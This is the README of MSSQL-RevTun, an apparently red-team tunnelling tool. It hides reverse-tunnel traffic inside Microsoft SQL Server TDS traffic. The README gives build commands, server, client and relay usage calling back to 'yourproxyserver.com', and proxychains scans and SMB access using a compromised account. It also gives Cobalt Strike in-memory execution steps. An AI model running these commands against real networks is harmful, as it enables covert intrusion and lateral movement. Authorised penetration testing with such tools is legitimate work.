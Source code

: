 # MSSQL-RevTun

MSSQL-RevTun is a tool for network pivoting. It operates similar to chisel, ligolo and ssh tunneling. The main difference is that it uses the Microsoft SQL Server TDS protocol to make the network traffic look like MSSQL traffic.

It operates in 3 modes:
- **Server**: Listens on a port (1433 by default). Once it receives a client connection, it opens another port (1080 by default). Through the second port, we can use proxychains/tun2socks to forward all traffic though the client.
- **Client**: Connects to server or to the relay using authentic MSSQL authentication. Forwards all traffic from the server.
- **Relay**: Relays the traffic from the client to the server. Use case: the client cannot directly reach the external server but can reach the relay machine.

## Building

### Quick Build
```powershell
.\build-multi.ps1  # Builds .NET Framework 4.8, Linux x64, Windows x64
```

### Manual Builds
```bash
# Windows x64
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true

# Linux x64  
dotnet publish -c Release -f net8.0 -r linux-x64 --self-contained true -p:PublishSingleFile=true

# Cobalt Strike (.NET Framework 4.8)
dotnet build -c Release -f net48 -p:Platform=AnyCPU

# Windows x64 optimized for minimal size (remove the net48 references from revtun.csproj before compiling this way)
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true -p:EnableCompressionInSingleFile=true -p:PublishTrimmed=true
```

## Usage

### Server
```bash
./revtun server --password testpass
```

### Client 
```bash
./revtun client --host yourproxyserver.com --password testpass
```

### Relay (Traffic Forwarding)
```bash
./revtun relay --host yourproxyserver.com --debug
```

### Using SOCKS Proxy
```bash
proxychains nmap -sT 192.168.1.0/24
proxychains smbclient -U compromised_user //internal.fileserver/Share
```

## Cobalt Strike Integration

### execute-assembly (not opsec in default config)
```bash
# Client from internal network  
execute-assembly revtun.exe client --host [internal.compromised.host/yourproxyserver.com] --password testpass

# Relay on pivot host
execute-assembly revtun.exe relay --host [yourproxyserver.com] 
```

### BOF.NET (in memory execution without creating new processes)
#### Project
- Original: https://github.com/CCob/BOF.NET
- Can run EXEs: https://github.com/williamknows/BOF.NET

#### Requirements
1. Build the BOF.NET DLL (requires .NET Framework 3.5 SP1): 
```
BOF.NET\managed\BOFNET.sln
```
2. Build object files. (instructions in github project)
3. Place all files in one folder:
```txt
bofnet.cna
BOFNET.dll
bofnet_execute.cpp.x86.obj
bofnet_execute.cpp.x64.obj
```
4. Import `bofnet.cna` into Cobalt Strike.

#### Run
```
# initialise BOF.NET
bofnet_init

# Load the .NET assembly
bofnet_load /path/to/revtun.exe

# (Optionally) list the loaded assemblies to check the name
bofnet_listassemblies

# Background execution
bofnet_jobassembly revtun client -h yourproxyserver.com --password testpass
```

#### Reference
https://williamknowles.io/bofnet_executeassembly-native-in-process-execution-of-net-assemblies-in-cobalt-strike/

## Command Options
```
SERVER OPTIONS:
  --password <pass>          Password for authentication (REQUIRED)
  --port, -p <port>          MSSQL server port (default: 1433)
  --proxy-port <port>        Proxy listener port (default: 1080)
  --bind <address>           Bind address (default: 0.0.0.0)
  --verbose, -v              Enable verbose logging
  --require-encryption       Require TLS encryption for all connections
  --no-encryption            Disable TLS encryption support

CLIENT OPTIONS:
  --password <pass>          Password for authentication (REQUIRED)
  --host, -h <hostname>      Server hostname (default: localhost)
  --port, -p <port>          Server port (default: 1433)
  --username, -u <user>      SQL username (default: sa)
  --database, -d <db>        Database name (default: master)
  --auto-exit                Exit after connection test
  --verbose, -v              Enable verbose logging
  --debug                    Enable debug output (shows all messages)
  --encrypt                  Request TLS encryption (default: enabled)
  --no-encrypt               Disable TLS encryption
  --require-encryption       Require TLS encryption (fail if not supported)

RELAY OPTIONS:
  --port, -p <port>          Relay listener port (default: 1433)
  --bind <address>           Bind address (default: 0.0.0.0)
  --host, -h <hostname>      Target server hostname (default: localhost)
  --server-port <port>       Target server port (default: 1433)
  --verbose, -v              Enable verbose logging
  --debug                    Enable debug output (shows TDS packet details)
```

